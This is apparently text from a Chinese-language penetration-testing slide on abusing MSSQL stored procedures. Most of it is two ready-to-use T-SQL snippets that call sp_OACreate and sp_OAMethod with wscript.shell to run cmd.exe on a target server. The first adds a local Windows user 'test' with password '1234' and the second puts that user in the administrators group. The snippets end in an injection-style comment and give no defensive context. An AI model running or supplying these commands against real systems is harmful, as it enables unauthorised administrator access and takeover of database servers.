

# Mssql数据库

Mssql存储过程利用
3、OLE相关的一系列存储过程，这系列的存储过程有sp_OACreate， sp_OADestroy，sp_OAGetErrorInfo，sp_OAGetProperty，sp_OAMethod， sp_OASetProperty，sp_OAStop，使用方法：
　　DECLARE @shell INT EXEC SP_OACREATE 'wscript.shell',@shell OUTPUT 
　　EXEC SP_OAMETHOD @shell,'run',null, 'c:\WINNT\system32\cmd.exe /c net user test 
　　1234 /add'--
　　这样对方系统增加了一个用户名为test，密码为1234的用户，再执行：
　　DECLARE @shell INT EXEC SP_OACREATE 'wscript.shell',@shell OUTPUT 
　　EXEC SP_OAMETHOD @shell,'run',null, 'c:\WINNT\system32\cmd.exe /c net localgroup 
　　administrators test /add '--
　　用户test，被加入管理员组。